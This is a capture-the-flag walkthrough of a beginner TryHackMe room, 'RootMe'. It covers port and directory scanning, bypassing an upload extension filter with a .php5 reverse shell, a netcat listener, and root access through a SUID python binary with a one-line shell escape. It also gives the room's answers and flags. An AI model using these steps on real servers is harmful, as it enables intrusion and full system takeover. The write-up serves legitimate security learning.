






# [RootMe](https://tryhackme.com/room/rrootme)

<figure></figure>

> A ctf for beginners, can you root me?
> https://tryhackme.com/room/rrootme

# Writeup

## **Task 1**: Deploy the machine

Click the button! It does it all! :3c

## **Task 2**: Reconnaissance

First things first, with the machine deployed at `10.66.166.135` we do a quick ping and verify it all really is connected. Since we have no info on what ports are open and what else may lie within, a quick search with `nmap` is warranted.

> `nmap` is a network scanner. It sends packages to ports and analyzes responses, returning open ports. 

Running:
```bash
kali@kali ~$ nmap -sV 10.66.166.135
```

Gets us:
```
Starting Nmap 7.95 ( https://nmap.org ) at 2026-03-23 21:17 UTC
Nmap scan report for 10.66.166.135
Host is up (0.15s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.96 seconds
```

With this we already can solve some of the questions:
- Q: Scan the machine. How many ports are open? A: 2
- Q: What version of Apache is running? A: 2.4.41
- Q: What service is running on port 22? A: ssh

Moving on, since we found a `http` service at port `80`, we can put the machine ip at the web browser search bar and check out what it got to offer... Nice website! Now, since there are no links around to click, we pull out the `gobuster` and start searching for them ourselves. Since Apache servers use `.php`, we'll search for them as well.

> `gobuster` is a bruteforcer. Specifically, it searches for directories on web servers, using a specified wordlist as reference.

Using the medium wordlist that comes with kali linux we run:
```bash
kali@kali ~$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.66.166.135/ -x .html .php -t 50
```

Netting us:
```
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.66.166.135/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8
[+] Extensions:              html
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/uploads (Status: 301) [Size: 316] [--> http://10.66.166.135/uploads/]
/css     (Status: 301) [Size: 312] [--> http://10.66.166.135/css/]
/js      (Status: 301) [Size: 311] [--> http://10.66.166.135/js/]
/panel   (Status: 301) [Size: 314] [--> http://10.66.166.135/panel/]
```

A quick check on `/css` and `/js` doesn't net anything useful (besides a pretty neat js function for typewriter-like styling) so we move to `/uploads` and `/panel`. Before though, one more question answered!

- Q: What is the hidden directory? A: `/panel/`

## **Task 3**: Getting a Shell

<figure></figure>

Would ya look at that! `/panel` is a file uploader! Let me just send my whole `cheatsheet.txt` as a test...

<figure></figure>
<figure></figure>

Didn't that actually work? It let me upload the file and didn't even question one bit! Here we already find a huge point of entry. File uploading has to be very carefully secured in order to prevent a plethera of exploits, some of them as simple as a reverse shell. So let me just...

> A revshell (reverse shell, shell shovelling) is a program that redirects the i/o of a shell to another service so it can be remotely accessed.

<figure></figure>
<figure></figure>

Oops! Should've expected that. Of course scripts were out of question. Then, surely, if I try other `.php` extensions such as `.php4` it'll end up blocked, ya?

<figure></figure>
<figure></figure>

Incredibly so, it was actually uploaded. Be careful setting up extension blockers! You should cover *all* of them... Out of precaution, I proceeded to upload all available `.php` extensions to the machine. 

<figure></figure>

> By the way, this particular revshell is [PHP PentestMonkey](https://github.com/pentestmonkey/php-reverse-shell).

With the reverse shell file properly planted on the servers, we set up `netcat` to listen on the same port as the revshell (`netcat -lvnp 1234`). 

> `netcat` is a networking utility for reading and writing to network connections. In this case, our reverse shell.

Then, on the `/uploads` we try to execute the `.php`s we've sent over (as simple as clicking the files). None work except `.php5` (good riddance we sent every possible one!), and now `netcat` returns us with the shell connection.

```bash
$ whoami
www-data
```

> "Getting through the firewall."

Doing a quick search for the flag `user.txt` using `find`:

```bash
$ find / -iname user.txt 2>/dev/null
var/www/user.txt
$ cat /var/www/user.txt
THM{y0u_g0t_a_sh3ll}
```

- `user.txt`: `THM{y0u_g0t_a_sh3ll}`


## **Task 4**: Privilege Escalation

For escalating permissions, there are various methods, but one easy one is using files with `SUID` permissions. Of course, if we *aren't* already root, though a quick `sudo -S -l` reveals it's password protected. That said, if by some miracle we find an odd-one-out file it might be of incredible use (of course, the THM room also incentivizes us to do so).

> Choosing `SUID` is great because these files are always run as the user that owns them. As such, we can search for files that `root` owns and try to remotely execute code.

Using the command:
```bash
find / -type f -perm -4000 2>/dev/null
```

We find:
```
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/newuidmap
/usr/bin/newgidmap
/usr/bin/chsh
/usr/bin/python2.7
/usr/bin/at
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/pkexec
/snap/core/8268/bin/mount
/snap/core/8268/bin/ping
/snap/core/8268/bin/ping6
/snap/core/8268/bin/su
/snap/core/8268/bin/umount
/snap/core/8268/usr/bin/chfn
/snap/core/8268/usr/bin/chsh
/snap/core/8268/usr/bin/gpasswd
/snap/core/8268/usr/bin/newgrp
/snap/core/8268/usr/bin/passwd
/snap/core/8268/usr/bin/sudo
/snap/core/8268/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/8268/usr/lib/openssh/ssh-keysign
/snap/core/8268/usr/lib/snapd/snap-confine
/snap/core/8268/usr/sbin/pppd
/snap/core/9665/bin/mount
/snap/core/9665/bin/ping
/snap/core/9665/bin/ping6
/snap/core/9665/bin/su
/snap/core/9665/bin/umount
/snap/core/9665/usr/bin/chfn
/snap/core/9665/usr/bin/chsh
/snap/core/9665/usr/bin/gpasswd
/snap/core/9665/usr/bin/newgrp
/snap/core/9665/usr/bin/passwd
/snap/core/9665/usr/bin/sudo
/snap/core/9665/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/9665/usr/lib/openssh/ssh-keysign
/snap/core/9665/usr/lib/snapd/snap-confine
/snap/core/9665/usr/sbin/pppd
/snap/core20/2599/usr/bin/chfn
/snap/core20/2599/usr/bin/chsh
/snap/core20/2599/usr/bin/gpasswd
/snap/core20/2599/usr/bin/mount
/snap/core20/2599/usr/bin/newgrp
/snap/core20/2599/usr/bin/passwd
/snap/core20/2599/usr/bin/su
/snap/core20/2599/usr/bin/sudo
/snap/core20/2599/usr/bin/umount
/snap/core20/2599/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core20/2599/usr/lib/openssh/ssh-keysign
/bin/mount
/bin/su
/bin/fusermount
/bin/umount
```

Most are the expected files besides our beloved `/usr/bin/python2.7`. A security nightmare, and the miracle we've been looking for! 

- Q: Search for files with SUID permission, which file is weird? A: `/usr/bin/python`

Using a gtfo script for python (the two-liner `python -c 'import os; os.execl("/bin/sh", "sh", "-p")'`) our `netcat` connection changes, awaiting input...

```bash
whoami
root
```

> "I'm in".

With root access we can finally access all files of the server and, to finish off the machine, we search for the flag `root.txt` the same way we did for `user.txt`. With the command:

```bash
find / -iname root.txt 2>/dev/null
```

We get `/root/root.txt`. We pet the `cat` and it meows: `THM{pr1v1l3g3_3sc4l4t10n}`.

- Q: `root.txt` A: `THM{pr1v1l3g3_3sc4l4t10n}`